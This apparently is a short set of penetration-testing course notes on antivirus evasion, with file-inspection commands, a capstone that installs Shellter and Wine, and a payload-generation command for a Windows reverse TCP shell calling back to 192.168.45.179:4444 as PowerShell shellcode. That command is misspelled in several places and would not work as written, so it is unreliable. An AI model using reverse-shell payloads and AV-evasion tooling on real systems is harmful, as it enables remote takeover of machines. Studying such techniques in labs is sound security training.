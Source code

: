 ## 14.1.3. Detection Methods

```bash
xxd -b malware.txt

sha256sum malware.txt
```

## 14.3.2. Evading AV with Thread Injection

```bash
msfv3nom -p windos/shel_rvese_tcp LHOST=192.168.45.179 LPORT=4444 -f powershell -v sc
```

## Capstone

```bash
sudo apt install shellter

sudo apt install wine

dpkg --add-architecture i386 && apt-get update &&
apt-get install wine32
```